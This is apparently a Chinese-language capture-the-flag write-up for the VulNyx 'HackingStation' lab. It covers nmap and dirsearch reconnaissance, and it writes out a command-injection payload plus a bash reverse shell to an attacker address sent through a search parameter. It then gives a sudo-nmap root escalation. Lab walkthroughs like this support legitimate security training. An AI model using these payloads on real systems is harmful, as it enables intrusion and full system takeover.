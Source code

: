 # 环境

来自[vulnyx_HackingStation](https://vulnyx.com/#HackingStation)，利用网站存在命令执行拿到shell

# 信息收集

## 主机发现

```bash
sudo nmap -sn 192.168.88.0/24
```

![image-20240712164414439](image/image-20240712164414439.png)

## 端口扫描

```bash
sudo nmap -sT -r -p- 192.168.88.32
```

![image-20240712164643449](image/image-20240712164643449.png)

## 服务详情

```bash
sudo nmap -sV -sC -O -p80 192.168.88.32
```

![image-20240712164920040](image/image-20240712164920040.png)

## 目录扫描

```bash
dirsearch -u http://192.168.88.32
```

# web渗透



## 命令执行拿shell

访问80，发现有个搜索功能

![image-20240712170820763](image/image-20240712170820763.png)

我们尝试sql注入发现无果，然后尝试命令执行，payload=`http://192.168.88.32/exploitQuery.php?product=apache;id`

![image-20240712171150937](image/image-20240712171150937.png)

进行反弹shell，抓包使用url编码发送

payload=`http://192.168.88.32/exploitQuery.php?product=apache;bash -c 'bash -i >& /dev/tcp/192.168.88.10/8888 0>&1'`

![image-20240712171758082](image/image-20240712171758082.png)

![image-20240712171833570](image/image-20240712171833570.png)

## 提取

```bash
sudo -l
```

![image-20240712173323390](image/image-20240712173323390.png)

发现nmap可以使用root权限，[nmap命令提取](https://gtfobins.github.io/gtfobins/nmap/)

```bash
TF=$(mktemp)
echo 'os.execute("/bin/sh")' > $TF
sudo nmap --script=$TF
```

![image-20240712174116764](image/image-20240712174116764.png)